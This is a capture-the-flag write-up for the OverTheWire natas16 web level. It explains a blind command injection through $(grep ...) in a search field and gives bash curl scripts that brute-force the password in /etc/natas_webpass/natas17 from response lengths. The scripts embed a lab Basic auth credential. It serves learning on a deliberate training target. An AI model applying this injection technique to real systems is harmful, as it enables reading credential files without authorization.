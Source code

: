 So the characters: `; | & \` ' "` are not allowed and input is most definitely put into a quoted string `grep -i "input" dictionary.txt`. I really tied playing with special characters like $, @ etc. But in the end nothing would work. I couldn't write to anything and view it. It turns out the key is the key `if $key ~=""`. So if there's an actual key, check it against the dictionary. I tested locally. I can cat a file. If I have a file called `passwd` and it contains something like `abc` as its content, plus a random dictionary.txt file with anything else, this command: `grep -i "$(grep a ./passwd)" dictionary.txt` (i.e. I'm checking for an existing character), nothing is returned. It's a little confusing, but I suppose I get at this point a "valid empty string". So the condition `if $key != ""` is not met and nothing is returned.

On the flip side, searching for a character that doesn't exist: `grep -i "$(grep Z ./passwd)" dictionary.txt`. So at this point the key isn't nothing (though it still gets passed through and the command that's "seen" is effectivly `grep -i "" dictionary.txt` which just displays the entire file's contents.

So all in all, I know if I guess a character in the file, I get nothing returned and if I guess wrong, I get a long output (the entire file concatenated). If this is done as a curl command, I get about 30 lines of short HTML for a currect guess and a long full list + the short HTML, abut 50,000 lines

As seems to be the theme as of recently, I didn't fully get this myself. Glanced at another solution, saw it looked like a brute force and I worked out the rest myself.

```bash
#PART 1 -- find restricted character set
for c in {A..Z} {a..z} {0..9}
do
      curl -s 'http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+'$c'+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' \
      -H 'Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==' > output.txt

      if [[ $(cat output.txt | wc -l) -lt 300 ]]
              then echo "found element $c"
      fi
done

```

```bash
char_set="A G H N P Q S W b c d g h k m n q r s w 0 3 5 7 8 9"

for s in $char_set
do
        array=$s
        change=1
        while [ $change == 1 ]
        do
                change=0
                for c in $char_set
                do
                        curl -s 'http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+'$array$c'+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' \
                        -H 'Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==' > output.txt

                        if [[ $(cat output.txt | wc -l) -lt 300 ]]
                                then echo "found pattern: $array$c"
                                array=$array$c
                                change=1
                                break
                        fi
                done
         done
done
```